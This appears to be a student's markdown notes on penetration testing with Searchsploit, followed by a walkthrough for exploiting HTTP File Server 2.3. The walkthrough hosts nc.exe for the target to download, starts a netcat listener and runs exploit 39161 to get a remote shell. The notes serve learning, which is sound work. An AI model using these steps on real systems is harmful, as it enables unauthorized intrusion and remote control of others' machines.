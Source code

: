 
# Searchsploit

**Searchsploit** is part of the Exploit-DB toolkit.  
It lets us quickly search, copy, and use publicly available exploits from the terminal.  
This is super useful during penetration testing when looking for exploits for discovered services or software versions.

---

## Basic Usage
```bash
# Search for exploits related to vsftpd 2.3.4
searchsploit vsftpd 2.3.4

# Update the Searchsploit database
searchsploit -u

# Copy exploit code locally (here exploit ID is 49757)
searchsploit -m 49757
```

## Case Sensitivity

* Searchsploit is **case-sensitive** when using `-c`.
* Example:

  ```bash
  searchsploit -c OpenSSH   # Works
  searchsploit -c openssh   # May fail
  ```

---

## Title-Based Search

```bash
searchsploit -t vsftpd
searchsploit -t bufferoverflow
```

---

## Exact Match in Title

```bash
searchsploit -e "Windows XP"        # Exact match in title
searchsploit --exact "windows exp"  # Alternate syntax
```

You can also combine with `grep`:

```bash
searchsploit -e "Windows XP" | grep -e "microsoft windows"
```

---

## Multi-Keyword Search

```bash
# General exploit searches
searchsploit remote windows smb
searchsploit remote windows buffer

# Web application exploits
searchsploit remote webapps wordpress
searchsploit remote webapps drupal
```

---

## Privilege Escalation

```bash
# Search for local privilege escalation exploits in Windows
searchsploit local windows | grep -e "microsoft"
```

---

## Extra Options

```bash
# Get Exploit-DB online link instead of local path
searchsploit remote windows smb -w | grep -e "Eternal Blue"

# Copy exploit path to working directory
sudo cp /usr/share/exploitdb/exploits/windows/remote/xxxx.py .
```

---

### Practical Takeaways (My Notes)

* Use `searchsploit -u` regularly to keep exploit database updated.
* `-m` is extremely handy to quickly bring an exploit into your working folder.
* `-t` and `-e` help refine searches when results are too broad.
* Combining Searchsploit with `grep` gives much more control.
* Exploits are not plug-and-play → **always read exploit code** to adjust target IP/port/version.
* Works offline (local database), unlike online exploit searches.




#
#
#


# Fixing & Using Exploits from Searchsploit

Sometimes exploits from Searchsploit don’t work "out-of-the-box".  
We need to carefully **read the exploit code and EDB notes**, fix issues, and prepare the environment to use them effectively.  

---

## Practical Walkthrough: Exploiting HFS (HTTP File Server 2.3)
1. **Identify the web server with Nmap**
   ```bash
   nmap -sV <target-ip>


2. **Search for an exploit**

   ```bash
   searchsploit "HTTP File Server 2.3"
   searchsploit -m 39161     # Copies exploit locally
   ```

3. **Read the exploit code & notes**

   * Exploit file will contain **usage instructions**.
   * Example:

     ```bash
     python exploit.py <target-ip> <port>
     ```
   * If nothing happens, check the **EDB Notes** → sometimes you need extra setup.

---

## Hosting Payload with Netcat Executable

* Some exploits require the target to download a binary (e.g., netcat) from our machine.

Steps:

```bash
# Copy Windows netcat binary to working directory
cp /usr/share/windows-resources/binaries/nc.exe .

# Start a Python HTTP server (to host nc.exe)
python -m SimpleHTTPServer 80
```

---

## Setting up Listener

```bash
# Open a new terminal for listener
nc -nvlp 1234
```

*(Port number must match what is specified inside the exploit script)*

---

## Running the Exploit

```bash
python exploitfile.py <target-ip> <port>
```

* Run again if needed to get a **remote shell (cmd session)**.
* Example command once inside:

```bash
sysinfo
```

---

## Important Notes

* Some exploits are in **C**, so they cannot run directly.

  * Need to **compile first** into a binary:

    ```bash
    gcc exploit.c -o exploit
    ./exploit <args>
    ```
* Always check exploit **requirements**:

  * Listener port
  * Payload hosting (HTTP/FTP server)
  * Target-specific versions

---

## Practical Takeaways (My Notes)

* Don’t blindly run exploits – **read comments inside the script**.
* Many require setting up a payload (like `nc.exe`) hosted on our server.
* Always check **EDB Notes** for extra requirements.
* Learned how to manually set up **Python web server** + **netcat listener** for exploit execution.
* Real-world pentests often need **fixing/modifying exploit code**, not just copy-paste.
* Some exploits need **compilation** before use (C/C++ based ones).

---
